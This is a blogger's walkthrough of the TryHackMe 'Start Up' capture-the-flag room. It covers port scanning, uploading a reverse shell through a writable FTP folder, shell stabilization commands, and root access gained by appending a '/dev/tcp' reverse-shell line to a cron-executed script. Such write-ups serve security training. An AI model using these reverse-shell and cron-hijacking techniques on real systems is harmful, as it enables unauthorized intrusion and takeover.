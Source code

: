 ```yaml
---
author:
  name: "papadope"
date: 2020-11-09
linktitle: Start Up
type:
- post
title: Start Up
weight: 10
series:
- Tryhackme
---
```


![Room Image](/startup/startuproom.jpg)

## Deploy

First of all, let’s deploy our machine. So click on the green deploy button if you haven’t done it already. Afterwards, to access the machine, you need to be inside TryHackMe network. So, get connected to THM VPN. We are not going to talk here about how can you connect to the VPN but there are awesome guides out there that can help you manage the frustration.

This is a small room to be honest. It’s one of the smallest room that i have ever done inside THM, but that doesn’t mean that it’s not fun to play with it!

---

## Enumeration

![nmap scan](/startup/nmap.png)

I started with a simple nmap scan, just looking for the first 1000 ports. As you can see there is **ftp** , **ssh** and **http** open. I instantly jumped for the ftp one because you can log in anonymously and there is a *notice.txt* inside.

* While i was investigating the ftp port I started a gobuster session in the background.

---

### FTP

![ftp img](/startup/ftpdownload.png)

I connected to **ftp** anonymously closed the prompt and download the hole directory locally.

* While you can pick every single file with the ``get`` command, why don't you grab the hole directory with ``mget *`` 🤔 ?

#### Inside notice.txt

![notice txt](/startup/noticetxt.png)

_At this point, i left the **ftp** completely and went back to **http**._

---

### HTTP

I visited the site first.

![port 80](/startup/port80.png)

I read the code behide it, but nothing. Then i remembered that i left **gobuster** running in the background.

I read the results from **gobuster**.

![gobuster](/startup/gobuster.png)

As you can see there is an interesting directory named **files** there. I visited it and this is what i saw.

![filesdirectory](/startup/filesdirectory.png)

Now what we can understand from that is **ftp** and **http** are synced. And we have the permission inside the *ftp* folder to upload anything we want inside it.

* There are two ways of looking about the permissions that we have on **ftp** folder inside **files** directory :

    1. Through ftp access.
    2. Reading closely the **nmap** scan we did before.

So, I uploaded a reverse shell of course!😏

![upload](/startup/uploadingreverse.png)

I started my **netcat** and went to ``startup.thm/files/ftp``. I clicked on the reverse shell that i have uploaded and i got it.

#### Reverse Shell Stabilization

![stabilization](/startup/stabilization.png)

1. Use python to spawn a better featured bash shell :

```

python -c 'import pty;pty.spawn("/bin/bash")'

```

2. Use **xterm** to access term commands such as *clear* :

```

export TERM=xterm

```

3. Last, background your shell using ``Ctrl + Z`` and inside your own terminal write :

```

stty raw -echo; fg

```
    
* This does two things :

   1. Turns off our own terminal echo (which gives us access to tab autocompletes, arrow keys, etc).
   2. Foregrounds the shell, thus completing the process.

And we got our perfect shell! Now search for the secret ingredient 🔍

After searching and looking for a way to become lennie user I looked the files I already had. Do you remember that **pcap** file? It was inside the **ftp** server. Go open it with **Wireshark** and try reading through it!

---

#### Pcap File

Inside the **pcap** file I found some TCP Streams interesting. While investigating I saw something that looked like a terminal.

![wireshark](/startup/wireshark.png)

Inside there I found the password for **lennie** user.

---

### Privilege Escalation

After running **linpeas** & **lse** scripts I got nothing to use. So I started manually privesc. I looked inside the **home** directory of lennie user and I saw an interesting directory called **scripts**. Inside it there was another interesting file called **planner.sh**. If you read through the file you are going to realize that another location of a file is hidden in there. Read through that file too.

As you can see we can't write inside the **planner.sh**, but we can write inside the other file called **print.sh** inside **etc**. This file has perms and it's owned by the user we currently use so I changed the file input with the command :

```

echo "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1" >> print.sh

```

* Further investigation with an excellent tool called **pspy64** I saw that the *.sh* file was actually a cron job!

![cronjob](/startup/pspy64s.png)

You can get **pspy** [here](https://github.com/DominicBreuker/pspy).

I wasn't aware of that tool so thank [🥩briskets](https://briskets.io) for that!

--- 

### Root

After that everything was simple. I started a **netcat** listener with the port I inserted inside the **print.sh** file and waited until the cronjob executed.

![cronjobexecuted](/startup/root.png)

Thank you very much for reading.